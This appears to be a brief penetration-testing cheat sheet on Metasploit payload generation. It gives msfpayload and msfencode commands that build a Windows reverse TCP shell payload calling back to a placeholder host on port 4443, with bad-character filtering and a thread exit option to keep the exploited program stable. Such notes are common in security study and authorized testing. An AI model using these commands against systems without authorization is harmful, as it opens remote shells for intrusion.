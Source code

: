 # Payloads

## MSF Payload Generation Example
```
msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 C

msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```

Use exit fuction, "exit thread" when program is multi-threaded to avoid crashes after shell code execution is done:
```
msfpayload windows/shell_reverse_tcp EXITFUNC=thread LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```
